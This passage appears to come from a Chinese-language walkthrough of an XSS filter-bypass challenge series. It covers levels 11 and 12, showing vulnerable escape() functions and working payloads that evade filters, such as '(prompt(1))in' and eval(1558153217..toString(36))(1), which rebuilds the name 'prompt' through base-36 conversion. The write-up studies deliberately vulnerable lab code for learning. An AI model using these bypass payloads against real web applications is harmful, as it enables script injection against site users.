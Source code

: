 ```javascript
前后呼应
p'rompt(1)
```

#### 11. 

```javascript
function escape(input) {
    // name should not contain special characters
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');

    // data to be parsed as JSON
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';

    // directly "parse" data in script context
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}  
```

```javascript
小 trick
"string"(prompt(1)) 将正常执行
"(prompt(1))in"
这里的 in 还可以用 instanceof 替代

Same story with alert(1)in"test":
TypeError: Cannot use 'in' operator to search for 'undefined' in test
```

#### 12

```javascript
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}   
```

```javascript
encodeURIComponent() 不会对 ASCII 字母和数字进行编码，
也不会对这些 ASCII 标点符号进行编码： - _ . ! ~ * ' ( ) 。
尝试使用 String.fromCharCode(112, 114, 111, 109, 112, 116)，但是 , 被编码

.() 不会被编码，所以可以利用 toString() 构造
toString(radix) 中 radix 为 2-36 可以选36使其作为一个进制，将字符包含起来
使用parseInt(str, radix) 将字符转为数字之后使用(number).toString(radix) 然后用eval进行调用 
注意number有括号，(number).toString(radix) 可简写为 （numbrer..toString(radix) ，字符之间用concat()连接
parseInt('prompt', 36) //1558153217
eval((1558153217).toString(36))(1)

还可以
eval(1558153217..toString(36))(1)

甚至可以直接暴力循环着self里的函数，找到prompt：
for((i)in(self))eval(i)(1)
```
